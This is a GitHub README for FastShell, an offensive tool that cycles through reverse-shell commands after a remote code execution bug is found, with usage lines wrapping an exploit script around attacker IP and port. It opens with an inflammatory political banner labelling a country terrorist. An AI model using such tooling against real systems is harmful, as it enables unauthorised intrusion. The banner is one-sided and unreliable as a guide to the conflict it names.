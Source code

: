 
<h2 align="center">Free Palestine && Terrorist israel</h2>

# FastShell ⚡

![indir (6)](https://github.com/Yusuf-YENICERI/FastShell/assets/38917909/4e32a4ba-e3aa-49ea-afae-70a26e3c8ee4)

Get your revshell in seconds!

## Why to use it?
Fastshell allows you to run many revshell commands with one line of command and it works with your command.

Let's assume that we found a rce in somewhere in an app and we want to get shell. What would we do in that case?
Well i go to a revshell generator online and i try them one by one.
No more that just set your command, ip, port and boom! You are in!

## How to use it?
This program requires 3 arguments, your command, ip and port of your host.

Assume you use the below command to run your exploit:

``
python3 exploit.py id(or any command you want)
``

Then you just need to do it:

``
python3 revshell.py "python3 exploit.py {revshell}", "your ip", "your port"
``

The things is to replace {revshell}, the exact text with the rce command you use and add ip and port.

## Warning
This program somehow breaks my python on Windows and it does not run. So try to use Linux. The problem might be related with the commands in the file. I'm not sure.

## Disclaimer
THIS TOOL IS FOR LEGAL PURPOSES ONLY!
I DO NOT CARRY ANY RESPONSIBILITY OF THIS TOOL'S WRONG USAGE. SO TAKE YOUR OWN RISK.
